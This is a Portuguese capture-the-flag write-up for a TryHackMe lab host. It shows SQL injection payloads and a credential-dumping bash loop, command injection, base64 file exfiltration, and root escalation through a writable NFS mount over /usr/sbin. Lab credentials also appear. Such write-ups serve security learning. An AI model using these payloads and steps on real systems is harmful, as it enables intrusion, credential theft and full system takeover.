

> [!Informações]
> - O IP da máquina foi adicionado ao `/etc/hosts` com a URL `http://hellkitchen.thm/`
> - Período: 17/05/2025 á 20/05/2025
> - Máquina do `TryHackMe` de Nível Difícil
> - Sistema Operacional: Linux
# Sumário
1. [[#Enumeração]]
	1. [[#NMap]]
	2. [[#Gobuster]]
	3. [[#Andando pela aplicação]]
		1. [[#Primeiro Botão]]
		2. [[#Segundo Botão]]
		3. [[#Terceiro Botão]]
	4. [[#Burp-Suite Fazendo análise]]
		1. [[#Interceptando requisições]]
2. [[#Exploração]]
	1. [[#SQL Injection]]
		1. [[#Descobrindo a versão do `SQLite`]]
		2. [[#Descobrindo nome das tabelas]]
		3. [[#Acessando tabelas]]
	2. [[#Aplicação da Porta 4346]]
		1. [[#`Command Injection`]]
3. [[#Pós-Exploração]]
	1. [[#Shell reversa]]
		1. [[#Rodando `linpeas.sh`para enumeração]]
	2. [[#Usuária Sandra]]
		1. [[#Exfiltrando uma imagem com base64]]
	3. [[#Usuário Jojo]]
4. [[#Escalando os Privilégios]]

----
# Enumeração
## NMap


## Gobuster


## Andando pela aplicação

### Primeiro Botão
Clicando em `Book Your Room`, esse alerta é exibido.


### Segundo Botão

Ao clicar no segundo botão da página principal da aplicação somos redirecionado para `/guest-book`


Nomes encontrados na página que, de alguma forma, podem ser útil em alguma tentativa de `brute-force`

- Gully Foyle
- Gabriel Syme
- Paul Denton
- Oberst Enzian
- Smilla Jasperson
- Hippolyta Hall

### Terceiro Botão

Ao clicar no terceiro botão da página principal da aplicação somos redirecionado para `/about-us`


## Burp-Suite: Fazendo análise

Com a aplicação "varrida" agora é hora de analisar as requisições que estão sendo feitas para vermos se encontramos algo peculiar.

E no meio das requisições vemos que dado momento, a aplicação faz uma requisição para descobrir se tem algum quarto disponível. Posteriormente, descobrimos que essa requisição está vinculada ao `Primeiro Botão`


Procurando pela página para sabermos se conseguimos ver essa requisição sendo feita, encontramos um `.js` (na página principal) que possa ser revelador.

**URL:** `http://hellkitchen.thm/static/check-rooms.js`

```
fetch('/api/rooms-available').then(response => response.text()).then(number => {
    const bookingBtn = document.querySelector("#booking");
    bookingBtn.removeAttribute("disabled");
    if (number < 6) {
        bookingBtn.addEventListener("click", () => {
            window.location.href = "new-booking";
        });
    } else {
        bookingBtn.addEventListener("click", () => {
            alert("Unfortunately the hotel is currently fully booked. Please try again later!")
        });
    }
});
```

### Interceptando requisições
Agora é hora de vermos onde essas requisições vão e se conseguirmos explorar ou achar alguma brecha que possamos ter algum tipo de acesso privilegiado.


Ao ler o código `.js` descobrimos que se o número de quartos disponíveis for menor que 6 a aplicação vai reagir diferente. Então, com o `burp` alteramos esse número de 6 -> 4.


Mostra que a uma vulnerabilidade de `bypass client-side`. Então podermos fazer uma manipulação via BURP


Continuando as manipulações de requisições


Analisando esse cookie e o código em `.js` que encontrei. Ao decodificar o cookie descobrimos que é um `booking_id` codificado.


----

# Exploração
## `SQL Injection`
Após vários testes o que foi tentado por último foi um `SQLi`
**Payload Codificada:** `ApfkkDrFctMBrXvWEEen6XX5Sckx1oTyb8nAuVZWwcC49bwS`
**Payload Decodificada:** `booking_id:6' UNION SELECT 1,2 -- -`


### Descobrindo a versão do `SQLite`


### Descobrindo nome das tabelas
`curl "http://hellkitchen.thm/api/booking-info?booking_key=$(echo -n "booking_id:3' UNION SELECT group_concat(sql, '\n'), 2 FROM sqlite_schema; --" | base58)"`

```
{"room_num":"CREATE TABLE email_access (guest_name TEXT, email_username TEXT, email_password TEXT)\\nCREATE TABLE reservations (guest_name TEXT, room_num INTEGER, days_remaining INTEGER)\\nCREATE TABLE bookings_temp (booking_id TEXT, room_num TEXT, days TEXT)","days":"2"}
```

Com isso, descobrimos 3 tabelas:
- `email_acess` -> `guest_name, email_username e email_password`
- `reservations` -> `guest_name, room_num e days_remaining`
- `bookings_temp` -> `booking_id, room_enum e days`

### Acessando tabelas
Primeiro, eu faço uma requisição normal e descubro um nome de usuário, mas tenho a desconfiança de que há mais usuários. Então, com o "OFFSET", consigo "andar" pelas linhas. Agora, é apenas automatizar para pegar e-mail e senha.


```
#!/bin/bash

# Loop de OFFSETs
for i in {0..20}; do
    SQL="SELECT email_username, email_password FROM email_access LIMIT 1 OFFSET $i"
    PAYLOAD="booking_id:3' UNION $SQL --"
    ENCODED=$(echo -n "$PAYLOAD" | base58)
    
    echo "[+] OFFSET $i"
    curl -s "http://hellkitchen.thm/api/booking-info?booking_key=$ENCODED"
    echo -e "\n"
done
```


> [!Credenciais Encontradas]
> {"room_num":"pdenton","days":"4321chameleon"}

## Aplicação da Porta 4346

Ao capturar as credenciais, eu lembro que tinha uma aplicação rodando na porta 4346 (descoberto pelo NMap) e como pedia usuário e senha eu acabei não prosseguindo, mas agora com as credenciais posso dar continuidade.

Esse é o momento que olhamos tudo na aplicação


Analisando essa `/api`, eu acabei descobrindo que ela ta sendo chamada na página principal `/mail`

Código Retirado a página principal
```
// Seleciona todos os elementos de e-mail
let emailRows = document.querySelectorAll(".email_list .row");

for (let i = 0; i < emailRows.length; i++) {
    emailRows[i].addEventListener("click", (e) => {
        // Remove a seleção atual
        document.querySelector(".email_list .selected").classList.remove("selected");

        // Adiciona a nova seleção
        e.target.parentElement.classList.add("selected");

        // Coleta o ID e os dados do e-mail
        let messageId = e.target.parentElement.getAttribute("data-id");
        let sender = e.target.parentElement.querySelector(".col_from").innerText;
        let subject = e.target.parentElement.querySelector(".col_subject").innerText;

        // Atualiza os cabeçalhos da visualização
        document.querySelector("#from_header").innerText = sender;
        document.querySelector("#subj_header").innerText = subject;
        document.querySelector("#email_content").innerText = "";

        // Busca o conteúdo da mensagem via API e decodifica base64
        fetch("/api/message?message_id=" + messageId)
            .then((res) => res.text())
            .then((data) => {
                document.querySelector("#email_content").innerText = atob(data);
            });
    });
}

// Botão de logout
document.querySelector(".dialog_controls button").addEventListener("click", (e) => {
    e.preventDefault();
    window.location.href = "/";
});

// Conexão WebSocket para exibir horário ou status em tempo real
const wsUri = `ws://${location.host}/ws`;
const socket = new WebSocket(wsUri);
let timezone = Intl.DateTimeFormat().resolvedOptions().timeZone;

socket.onmessage = (e) => {
    document.querySelector(".time").innerText = e.data;
};

// Atualiza o WebSocket com o timezone a cada 1 segundo
setInterval(() => {
    socket.send(timezone);
}, 1000);
```

Então a partir daí comecei capturar todas as requisições para poder ver se tem algo que da para ser explorado.
A todo tempo estava fazendo essa requisição. Ao Jogar no "repeater"


Explorando um pouco tentei um pouco de command Injection....


### `Command Injection`

Testando comando `ls -la /home/` e entrando pelos diretórios de cada usuário temos o seguinte esquema
```
/
├── gilbert/
│   ├── lrwxrwxrwx 1 gilbert gilbert     9 Sep 10  2023 .bash_history -> /dev/null
│   ├── -rw-r--r-- 1 gilbert gilbert   220 Feb 25  2020 .bash_logout
│   ├── -rw-r--r-- 1 gilbert gilbert  3771 Feb 25  2020 .bashrc
│   ├── -rw-r----- 1 sandra  gilbert    31 Sep 10  2023 dad.txt -> left you a note by the site -S (deixei uma nota para você pelo site -S)
│   ├── -rw-rw---- 1 gilbert gilbert   461 Sep 10  2023 hotel-jobs.txt
│   └── -rw-r--r-- 1 gilbert gilbert   807 Feb 25  2020 .profile
│
├── jojo/
│   ├── lrwxrwxrwx 1 jojo    jojo       9 Sep 10  2023 .bash_history -> /dev/null
│   ├── -rw-r--r-- 1 jojo    jojo     220 Feb 25  2020 .bash_logout
│   ├── -rw-r--r-- 1 jojo    jojo    3771 Feb 25  2020 .bashrc
│   ├── -rw-rw---- 1 jojo    jojo     223 Sep 10  2023 note.txt
│   └── -rw-r--r-- 1 jojo    jojo     807 Feb 25  2020 .profile
│
└── sandra/
    ├── lrwxrwxrwx 1 sandra    sandra       9 Sep 10  2023 .bash_history -> /dev/null
    ├── -rw-r--r-- 1 sandra    sandra     220 Feb 25  2020 .bash_logout
    ├── -rw-r--r-- 1 sandra    sandra    3771 Feb 25  2020 .bashrc
    ├── -rw-rw---- 1 sandra    sandra     198 Sep 10  2023  note.txt
    ├── drwxrwx--- 2 sandra    sandra    4096 Sep 10  2023  Pictures
    └── -rw-r--r-- 1 sandra    sandra     807 Feb 25  2020 .profile
    └── -rw-r--r-- 1 sandra    sandra     46  Sep 10  2020 user.txt
```

----

# Pós-Exploração
## Shell reversa

Provavelmente é algum filtro que está sendo passado. Podermos fazer um processo inverso. Ao invés de rodar direto na página, podermos fazer um arquivo malicioso para ser executado e obter a shell.


Fazendo alguns testes eu percebi que o "filtro" está no tamanho da string enviada pela requisição. Então eu criei um arquivo para ter essa payload e fazer o servidor deles conectarem no meu, baixar e executar a payload.


```
gilbert@tonhotel:~$ cat hotel-jobs.txt
cat hotel-jobs.txt
hotel tasks, q1 52

- fix lights in the elevator shaft, flickering for a while now
- maybe put barrier up in front of shaft, so the addicts dont fall in
- ask sandra AGAIN why that punk has an account on here (be nice, so good for her to be home helping with admin)
- remember! 'ilovemydaughter'

buy her something special maybe - she used to like raspberry candy - as thanks for locking the machine down. 'ports are blocked' whatever that means. my smart girl
```

> [!Será alguma credencial?]
> ilovemydaughter

### Rodando `linpeas.sh`para enumeração

Anteriormente descobrimos que a usuário `sandra` deixou uma nota na pasta do `gilbert` com uma mensagem sobre um arquivo `.dad`

```
╔══════════╣ All relevant hidden files (not in /sys/ or the ones listed in the previous check) (limit 70)
.
.
.
-rw-r----- 1 sandra gilbert 183 Sep 10  2023 /srv/.dad
.
.
.
```


> [!Tradução]
> Não consigo lidar com seus ataques aos meus amigos. Pai, preciso me afastar um pouco do hotel. se você precisar acessar o site ton, meu pw é onde eu prefiro estar: em qualquer lugar, mas aqui. -S

Com uma tentativa de autenticar no usuário da Sandra com a "dica"
`anywherebuthere`, foi feito a autenticação


## Usuária Sandra

Ao navegador pela pasta do diretório


### Exfiltrando uma imagem com base64
Acabei encontrando um arquivo chamada `boss.jpg` na pasta `/home/sandra/Pictures`

**Na máquina da vítima (onde o reverse shell está rodando)**
```
sandra@tonhotel:~/Pictures$ base64 boss.jpg > img.b64
sandra@tonhotel:~/Pictures$ cat img.b64
/9j/4AAQSkZJRgABAQEAYABgAAD/4QBmRXhpZgAATU0AKgAAAAgABAEaAAUAAAABAAAAPgEbAAUA
.
.
.
xarazXVrcs6rbWFu4lD2cYBLldrOCpJBBQB92UUAf//Z
```

**Na máquina do atacante**

```
arthur-strelow@ubuntu-star:~/Downloads$ touch img.b64
arthur-strelow@ubuntu-star:~/Downloads$ nano img.b64 (onde será depositado o base64) 

arthur-strelow@ubuntu-star:~/Downloads$ base64 -d img.b64 > img.jpg

arthur-strelow@ubuntu-star:~/Downloads$ file img.jpg 
img.jpg: JPEG image data, JFIF standard 1.01, resolution (DPI), density 96x96, segment length 16, Exif Standard: [TIFF image data, big-endian, direntries=4, xresolution=62, yresolution=70, resolutionunit=2, software=paint.net 5.0.9], baseline, precision 8, 305x376, components 3
```

Imagem Exfiltrada


\Ao fazer uma tentativa de senha no usuário `jojo` temos êxito


## Usuário Jojo

Buscando pelos arquivos no diretório do usuário acabei encontrando um arquivo de texto, cujo nome é `note.txt`


> [!Tradução]
> Jojo, em breve publicaremos pedidos em um servidor NSF privado, endereço a ser comunicado. leia através de uma máquina descartável em algum lugar com o qual você não se importa - a unatco acabará com isso em breve. sem erros. -Decker

Verificando as permissões com o comando `sudo -l` foi evidenciado que tem um arquivo específico que tem as permissões de rodar como root

```
Matching Defaults entries for jojo on tonhotel:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jojo may run the following commands on tonhotel:
    (root) /usr/sbin/mount.nfs
```

----

# Escalando os Privilégios

Executando o arquivo em questão temos o seguinte retorno
```
jojo@tonhotel:/usr/sbin$ mount.nfs
mount.nfs
mount.nfs: no mount point provided
usage: mount.nfs remotetarget dir [-rvVwfnsh] [-o nfsoptions]
options:
	-r		Mount file system readonly
	-v		Verbose
	-V		Print version
	-w		Mount file system read-write
	-f		Fake mount, do not actually mount
	-n		Do not update /etc/mtab
	-s		Tolerate sloppy mount options rather than fail
	-h		Print this help
	nfsoptions	Refer to mount.nfs(8) or nfs(5)
```

O `/usr/sbin/mount.nfs` nos permite montar um `NFS` compartilhamento.
A exploração será por meio desse montagem do `NFS` compartilhado e gravável.
E com isso substituirá o `/usr/sbin/` -> `/usr/sbin/mount.nfs` por qualquer coisa que quisermos, e ainda poderíamos executá-lo como o `root`

> [!Pacote importante para instalar]
> nfs-kernel-server

A Criação de um diretório para compartilhar e dar as permissões totais
```
mkdir /tmp/share
sudo chown nobody:nogroup /tmp/share
sudo chmod 777 /tmp/share
```

Como existe um firewall em execução. Então é só configurar o `NFS` (Máquina do atacante) servidor para rodar em uma porta permitida.

Podemos fazer isso modificando o `/etc/nsf.conf`

```
[nfsd]
port=443
```

Logo após, adicionando nosso diretório ao `/etc/exports`

`sudo bash -c 'echo "/tmp/share 10.0.0.0/8(rw)" >> /etc/exports'`

Exportando o compartilhamento e reiniciando o `NFS` servidor para aplicar as alterações de configuração

```
sudo exportfs -a
sudo systemctl restart nfs-kernel-server
```

Com o servidor já montado agora é partir para a máquina da vítima, podemos montá-la `/usr/sbin`

`jojo@tonhotel:~$ sudo /usr/sbin/mount.nfs -o port=443 10.13.72.32:/tmp/share /usr/sbin`

Aqui mostra que o `/usr/sbin` é gravável

```
jojo@tonhotel:~$ ls -la /usr/sbin
total 8
drwxrwxrwx  2 nobody nogroup 4096 Jul 20 03:36 .
drwxr-xr-x 14 root   root    4096 Aug 31  2022 ..
```

Substituindo o `/usr/sbin/mount.nfs` -> `/bin/sh`
```
jojo@tonhotel:~$ cp /bin/sh /usr/sbin/mount.nfs
jojo@tonhotel:~$ ls -la /usr/sbin
total 136
drwxrwxrwx  2 nobody nogroup   4096 Jul 20 03:46 .
drwxr-xr-x 14 root   root      4096 Aug 31  2022 ..
-rwxr-xr-x  1 jojo   jojo    129816 Jul 20 03:46 mount.nfs
```

E por fim, podemos executá-lo usando o `sudo` para obter um shell como `root`

```
jojo@tonhotel:~$ sudo /usr/sbin/mount.nfs
# id
uid=0(root) gid=0(root) groups=0(root)
# wc -c /root/root.txt
46 /root/root.txt
```